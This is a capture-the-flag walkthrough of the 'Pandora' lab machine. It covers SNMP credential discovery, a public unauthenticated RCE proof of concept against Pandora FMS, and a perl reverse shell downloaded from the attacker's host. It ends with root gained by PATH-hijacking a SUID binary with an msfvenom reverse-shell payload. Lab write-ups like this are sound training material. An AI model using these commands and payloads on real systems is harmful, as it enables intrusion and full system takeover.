We start by enumerating the machine with Nmap and Feroxbuster. We find 2 open TCP ports (22 and 80) and 1 open UDP port (161). We don't find much after enumerating the web server on port 80, but we find credentials after enumerating the SNMP service and use them to obtain a low privilege SSH session on the machine.
sudo nmap -sV -T5 -p- 10.10.11.136 -v  sudo nmap -sU -f -T 5 panda.htb -v  sudo nmap -sU -p 161 --script "snmp*" panda.htb  We find credentials passed in cleartext to a process in the script results:  ssh daniel@panda.htb  Using our SSH session we find 2 directories within /var/www, “html” and “pandora”. In the "pandora" directory, there is a folder called pandora_console. If we visit the localhost web address with curl while including this directory, we get a 200 response. We decide to port-forward the web server with SSH to enumerate the directory further. cd /var/www ls ls pandora/  curl localhost/pandora_console/  ssh -L localhost:8000:localhost:80 daniel@panda.htb  We can now access the web page from our attack machine. We instantly identified the application as Pandora FMS and found its version number. We then exploited an unauthenticated RCE vulnerability present in this version to obtain a web shell as user Matt. The version number found at the bottom of the web page:  We find the POC for the vulnerability (third result):  python3 sqlpwn.py -t localhost:8000 -f rev.php  We transfer and execute a perl reverse shell. python3 -m http.server 80 wget http://10.10.14.40:80/rev.pl perl rev.pl  We upgraded our shell using Python. python3 -c 'import pty; pty.spawn("/bin/bash")'  We then enumerate all SUID binaries to find the custom binary /usr/bin/pandora_backup. We can reverse engineer it to find that it calls the tar binary with a relative path. We load our custom malicious tar binary into the current folder, export our current folder into the PATH variable and run “pandora_backup” to get a reverse shell as root. We find the custom SUID script: find / -type f -perm -4000 2>/dev/null  We transfer the binary locally: cd /usr/bin/ python3 -m http.server 8000  wget http://panda.htb:8000/pandora_backup  Here we notice that tar is being called without its absolute path: strings pandora_backup  This relative call of the tar binary will allow us to perform binary hijacking and obtain a root shell. We generate our malicious tar binary: msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.46 LPORT=1234 -f elf -o tar  We transfer it to the victim machine: python3 -m http.server 80 wget http://10.10.14.40:80/tar  We set its permissions, export the current path and run the SUID binary. It is important to break out of the restricted shell or else it won't run as root even though it is SUID. echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null chmod +x tar export PATH=$(pwd):$PATH nc -lvnp 1234 /usr/bin/pandora_backup Root shell:

Root shell:
